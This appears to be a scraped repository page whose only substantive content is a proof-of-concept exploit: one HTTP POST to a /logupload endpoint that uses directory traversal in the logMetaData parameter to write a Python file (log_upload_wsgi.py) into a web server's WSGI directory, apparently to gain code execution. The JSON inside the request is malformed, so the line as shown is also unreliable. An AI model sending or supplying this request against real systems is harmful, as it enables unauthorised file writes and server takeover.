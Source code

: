 <languages />

POC
---

    POST /logupload?logMetaData={"itrLogPath":"../../../../../etc/httpd/html/wsgi_log_upload","logFileType","log_upload_wsgi.py"} HTTP/1.1
